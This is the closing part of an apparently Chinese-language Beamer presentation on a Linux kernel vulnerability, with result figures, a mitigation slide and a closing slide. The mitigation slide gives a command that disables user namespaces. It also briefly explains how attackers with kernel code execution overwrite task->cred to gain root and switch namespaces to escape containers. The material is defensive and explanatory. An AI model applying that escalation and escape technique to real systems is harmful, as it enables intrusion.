
\includegraphics[width=0.8\textwidth]{pic/res1}% [width=0.8\textwidth]
\end{figure}



\column{0.5\textwidth}
\begin{figure}[H]
\centering

\includegraphics[width=0.8\textwidth]{pic/res2}% [width=0.8\textwidth]
\end{figure}

	
\end{columns}


\end{frame}


\section{漏洞修复}



\begin{frame}[fragile]
\small{用户可以先通过下述命令禁用用户命名空间来缓解该漏洞带来的影响:}
\tiny\begin{lstlisting}
echo 0 > /proc/sys/user/max_user_namespaces
\end{lstlisting}

\small{该漏洞的完全修复需要用户更新内核并重启系统,修复成本较高,导致利用窗口期较长,漏洞影响与危害较大。攻击者获得内核的代码执行权限后,一般会试图修改自身或指定进程的task->cred 来提升至root用户权限,并且借助切换命名空间来逃逸容器。}

\end{frame}










\begin{frame}
\begin{center}
{\Huge Thanks!}
\end{center}
\end{frame}

\end{document}